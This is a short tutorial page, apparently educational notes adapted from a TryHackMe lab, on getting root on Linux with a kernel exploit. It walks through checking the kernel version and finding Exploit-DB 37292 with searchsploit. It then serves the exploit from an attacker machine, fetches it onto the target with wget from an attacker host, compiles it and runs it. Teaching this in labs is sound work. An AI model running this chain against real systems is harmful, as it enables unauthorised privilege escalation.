 # Vulnerabilities exploit

Methods to exploit vulnerabilites present on a system, to gain escalated privileges (ideally `root`).

### Example

Given that a remote shell is gained on a Linux Ubuntu machine with a low-privileged user. A few important information can be gathered from the enumeration commands discussed in the previous section under `Enumeration`.

1. Gather information on the kernel version

```bash
$ cat /proc/version
Linux version 3.13.0-24-generic ...

# OR

$ uname -a
Linux ... 3.13.0-24-generic ...
```

2. Search for vulnerabilities

**From the attacker machine**

```bash
$ searchsploit linux kernel 3.13

...
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'ove | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'ove | linux/local/37293.txt
...
```

Or directly from Exploit-DB:

{% embed url="https://www.exploit-db.com/exploits/37292" %}

**Look for the exploit code and run a Python web server to serve the content**

```bash
$ find / -path '*linux/local/37292.c' 2>/dev/null
/usr/share/exploitdb/exploits/linux/local/37292.c

$ cd /usr/share/exploitdb/exploits/linux/local

...linux/local$ python3 -m http.server 8888
```

3. Navigate to a directory with write and execute permissions for all such as `/tmp`

**From the target machine**

```bash
$ find / -perm 003 -type d 2>/dev/null
/tmp
...

$ cd /tmp
$ wget http://<attacker_ip>:<port>/37292.c
...

$ gcc 37292.c -o 37292
$ ./37292.out

...

root# whoami
root

root# ...
```



Adapted from task 5 of the TryHackMe practice room:

{% embed url="https://tryhackme.com/r/room/linprivesc" %}
